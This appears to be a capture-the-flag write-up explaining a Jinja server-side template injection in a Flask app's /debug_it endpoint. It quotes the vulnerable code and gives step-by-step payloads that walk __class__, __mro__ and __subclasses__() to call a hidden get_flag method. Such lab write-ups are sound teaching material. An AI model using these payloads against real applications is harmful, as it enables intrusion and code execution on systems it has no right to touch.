





## Solution

1.  Looking at the source code of main page you can find `/debug_it` endpoint.
 


2. Part that interests us is here:
```python
ip = request.args.get('ip') or None
if ip is None:
    .
    .
else:
    location = get_location_for(ip)
    try:
        template = render_template_string(render_template('results.html', ip=ip, location=location))
        return template
    except Exception as e:
        logging.error(e)
        abort(500)
```
We can see here that unsaintized IP is passed directly to the HTML

4. We will use Jinja templates. Usefull Jinja/python code:
   
- `__class__` - access working class
- `__mro__` - access classe's parents
- `__subclasses__` - access classe's sublclasses

### Step by step

- We can use `__class__` and `__mro__` to access parents of our main class:
```jinja
{{request.__class__.__mro__}}
```



- Now we need to get subclasses of root Object
```jinja
{{request.__class__.__mro__[11].__subclasses__()}}
```



- We have our Flag `(in my case it is 495th in array of subclasses)` class but we want to see it's methods:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].__dict__}}
```



- There it is! Now just access method `get_flag` directly:
```jinja
{{request.__class__.__mro__[11].__subclasses__()[495].get_flag()}}
```


